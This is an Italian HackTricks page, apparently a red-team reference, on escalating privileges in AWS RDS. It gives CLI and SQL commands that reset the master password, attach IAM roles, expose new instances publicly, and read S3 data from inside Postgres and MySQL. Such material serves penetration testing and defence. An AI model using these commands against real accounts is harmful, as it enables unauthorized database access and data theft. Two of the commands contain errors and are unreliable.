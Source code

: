 # AWS - RDS Privesc

<details>

<summary><strong>Impara l'hacking di AWS da zero a esperto con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Altri modi per supportare HackTricks:

* Se vuoi vedere la tua **azienda pubblicizzata in HackTricks** o **scaricare HackTricks in PDF** Controlla i [**PACCHETTI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Ottieni il [**merchandising ufficiale di PEASS & HackTricks**](https://peass.creator-spring.com)
* Scopri [**The PEASS Family**](https://opensea.io/collection/the-peass-family), la nostra collezione di [**NFT esclusivi**](https://opensea.io/collection/the-peass-family)
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## RDS - Relational Database Service

Per ulteriori informazioni su RDS, controlla:

{% content-ref url="../aws-services/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

Con tale permesso, un attaccante può **modificare la password dell'utente principale** e l'accesso all'interno del database:

```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```

{% hint style="warning" %}
Dovrai essere in grado di **contattare il database** (di solito sono accessibili solo da reti interne).
{% endhint %}

**Impatto potenziale:** Trovare informazioni sensibili all'interno dei database.

### rds-db:connect

Secondo la [**documentazione**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html), un utente con questa autorizzazione potrebbe connettersi all'istanza del database.

### Sfruttare le autorizzazioni IAM del ruolo RDS

#### Postgresql (Aurora)

{% hint style="success" %}
Se eseguendo **`SELECT datname FROM pg_database;`** trovi un database chiamato **`rdsadmin`**, sai di essere all'interno di un **database AWS postgresql**.
{% endhint %}

Innanzitutto, puoi verificare se questo database è stato utilizzato per accedere ad altri servizi AWS. Puoi controllare questo guardando le estensioni installate:

```sql
SELECT * FROM pg_extension;
```

Se trovi qualcosa come **`aws_s3`** puoi assumere che questo database abbia **un certo tipo di accesso a S3** (ci sono altre estensioni come **`aws_ml`** e **`aws_lambda`**).

Inoltre, se hai le autorizzazioni per eseguire **`aws rds describe-db-clusters`** puoi vedere se il **cluster ha un IAM Role associato** nel campo **`AssociatedRoles`**. Se ce n'è uno, puoi assumere che il database sia stato **preparato per accedere ad altri servizi AWS**. In base al **nome del ruolo** (o se puoi ottenere le **autorizzazioni** del ruolo) potresti **indovinare** quali ulteriori accessi ha il database.

Ora, per **leggere un file all'interno di un bucket** devi conoscere il percorso completo. Puoi leggerlo con:

```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```

Se avessi **credenziali AWS raw**, potresti utilizzarle anche per accedere ai dati di S3 con:

```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```

{% hint style="info" %}
Postgresql **non ha bisogno di modificare alcuna variabile del gruppo di parametri** per poter accedere a S3.
{% endhint %}

#### Mysql (Aurora)

{% hint style="success" %}
All'interno di un mysql, se esegui la query **`SELECT User, Host FROM mysql.user;`** e c'è un utente chiamato **`rdsadmin`**, puoi assumere di essere all'interno di un **AWS RDS mysql db**.
{% endhint %}

All'interno del mysql esegui **`show variables;`** e se le variabili come **`aws_default_s3_role`**, **`aurora_load_from_s3_role`**, **`aurora_select_into_s3_role`** hanno dei valori, puoi assumere che il database sia preparato per accedere ai dati di S3.

Inoltre, se hai le autorizzazioni per eseguire **`aws rds describe-db-clusters`** puoi verificare se il cluster ha un **ruolo associato**, il che di solito significa accesso ai servizi AWS).

Ora, per **leggere un file all'interno di un bucket** devi conoscere il percorso completo. Puoi leggerlo con:

```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```

### `rds:AddRoleToDBCluster`, `iam:PassRole`

Un attaccante con i permessi `rds:AddRoleToDBCluster` e `iam:PassRole` può **aggiungere un ruolo specifico a un'istanza RDS esistente**. Ciò potrebbe consentire all'attaccante di **accedere a dati sensibili** o modificare i dati all'interno dell'istanza.

```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```

**Potenziale Impatto**: Accesso a dati sensibili o modifiche non autorizzate ai dati nell'istanza RDS.\
Si noti che alcuni DB richiedono configurazioni aggiuntive come Mysql, che deve specificare l'ARN del ruolo nei gruppi di parametri anche.

### `rds:CreateDBInstance`

Solo con questa autorizzazione, un attaccante potrebbe creare una **nuova istanza all'interno di un cluster** che esiste già e ha un **ruolo IAM** allegato. Non sarà in grado di cambiare la password dell'utente principale, ma potrebbe essere in grado di esporre la nuova istanza del database su Internet:

```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```

### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
TODO: Test
{% endhint %}

Un attaccante con i permessi `rds:CreateDBInstance` e `iam:PassRole` può **creare una nuova istanza RDS con un ruolo specificato allegato**. L'attaccante può quindi potenzialmente **accedere a dati sensibili** o modificare i dati all'interno dell'istanza.

{% hint style="warning" %}
Alcuni requisiti del ruolo/profilo-istanza da allegare (da [**qui**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)):

* Il profilo deve esistere nel tuo account.
* Il profilo deve avere un ruolo IAM che Amazon EC2 ha i permessi di assumere.
* Il nome del profilo dell'istanza e il nome del ruolo IAM associato devono iniziare con il prefisso `AWSRDSCustom`.
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
{% endcode %}

**Impatto potenziale**: Accesso a dati sensibili o modifiche non autorizzate ai dati nell'istanza RDS.

### `rds:AddRoleToDBInstance`, `iam:PassRole`

Un attaccante con i permessi `rds:AddRoleToDBInstance` e `iam:PassRole` può **aggiungere un ruolo specificato a un'istanza RDS esistente**. Ciò potrebbe consentire all'attaccante di **accedere a dati sensibili** o modificare i dati all'interno dell'istanza.

{% hint style="warning" %}
L'istanza del database deve essere al di fuori di un cluster per questo.
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
{% endcode %}

**Potenziale impatto**: Accesso a dati sensibili o modifiche non autorizzate ai dati nell'istanza RDS.

<details>

<summary><strong>Impara l'hacking di AWS da zero a esperto con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Altri modi per supportare HackTricks:

* Se vuoi vedere la tua **azienda pubblicizzata su HackTricks** o **scaricare HackTricks in PDF** Controlla i [**PIANI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Ottieni il [**merchandising ufficiale di PEASS & HackTricks**](https://peass.creator-spring.com)
* Scopri [**The PEASS Family**](https://opensea.io/collection/the-peass-family), la nostra collezione di [**NFT**](https://opensea.io/collection/the-peass-family) esclusivi
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo Telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR ai repository di** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github.

</details>
